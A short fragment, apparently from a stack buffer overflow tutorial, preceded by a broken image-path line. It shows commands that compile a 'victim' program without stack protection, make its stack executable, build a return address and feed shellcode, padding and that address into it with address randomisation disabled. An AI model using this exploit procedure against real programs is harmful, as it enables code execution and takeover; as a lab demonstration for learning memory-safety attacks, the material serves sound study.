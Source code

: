 gcc -fno-stack-protector -o victim victim.c
execstack -s victim
$ a=`printf %016x 0x7fffffffe090 | tac -rs..` 
$ echo $a 
90e0ffffff7f0000
$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; 
cat ) | setarch `arch` -R ./victim
